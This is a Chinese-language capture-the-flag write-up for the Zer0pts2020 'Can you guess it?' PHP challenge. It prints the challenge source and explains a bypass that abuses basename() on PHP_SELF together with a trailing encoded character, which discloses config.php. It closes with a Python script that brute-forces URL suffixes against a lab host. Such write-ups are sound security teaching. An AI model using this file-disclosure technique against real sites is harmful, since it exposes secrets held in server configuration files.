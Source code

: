 # [Zer0pts2020]Can you guess it?

进入题目即可得到源码：

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

根据题目标题，再看到有一段生成随机数的语段，想到破解随机数即可得到flag
```php
$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
```

但是此随机数并不可像 `mt_rand` 实现破解

向上寻找，看到此段

```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```

此段用`basename()`获取了 `PHP_SELF` 中的尾部文件名，而我们在正常文件后加上其他文件的地址并不会影响正常访问

以测试页面为例：
```php
<?php
highlight_file(__FILE__);

if(isset($_GET['source'])) {
    $source = $_GET['source'];
}

echo $_SERVER['PHP_SELF'] . "</br>";
echo basename($_SERVER['PHP_SELF']);
```

分别访问 index.php 和 index.php/config.php

![01]()
![02]()

并且在经过basename()的作用后拆分出了 `config.php`，恰好满足题目的需求

这时即可得到访问 `config.php` 的顺序：先在正常url后边加上config.php，使之在满足不访问config.php的条件下经过highlight_file()显示出config.php内的内容，而且flag就藏在config.php内。

最后需要满足的条件就是绕过正则：
```text
/config\.php\/*$/i
```

这个加上 `$` 的匹配是在尾部进行的，先进行测试

![03]()
可以看到直接访问config.php会直接被匹配，这时直接在尾部加上一些特殊内容即可实现绕过，例如常见的 %0d，%0a等等

![04]()

但是直接访问发现并不能访问到内容，直接用脚本得到可访问的内容

```python
import requests
import time

def get_true():
    base_url = "http://2ae89acf-b141-4717-8262-21ddf6846777.node3.buuoj.cn/index.php/config.php/{0}?source"

    for i in range(500):
        url = base_url.format("%" + hex(i))
        res = requests.get(url)

        if r'flag' in res.text:
            print(res.text)
            break
        print(i)
        time.sleep(0.5)

if __name__ == "__main__":
    get_true()
```

![06]()
